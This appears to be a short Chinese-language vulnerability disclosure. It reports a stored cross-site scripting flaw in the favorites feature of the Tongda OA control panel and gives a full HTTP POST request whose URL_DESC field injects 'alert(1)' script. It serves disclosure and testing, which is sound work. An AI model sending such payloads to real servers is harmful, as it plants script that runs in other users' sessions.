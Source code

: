 # TONGDA OFFICE Anywhere 10.20.200417-store xss

## 漏洞描述

通达OA 控制面板 页面收藏夹处存在存储型xss漏洞

## 复现步骤

### 步骤1

提交poc

```
POST /general/person_info/fav/add.php HTTP/1.1
Host: 127.0.0.1:88
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/person_info/fav/index.php?IS_MAIN=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r4pki3jd1etr9bpbfd7o6uivo5; SID_3795=b8a99e8d
Connection: close

URL_NO=1&URL_DESC=cyberlab"]%3balert(1)//&URL=http%3A%2F%2Ftest.com&button=%CC%ED%BC%D3
```



### 步骤2

访问主页面，漏洞触发:

![tongda_xss](https://github.com/jqz41401/jqzCVE/blob/master/img/tongda_xss.)
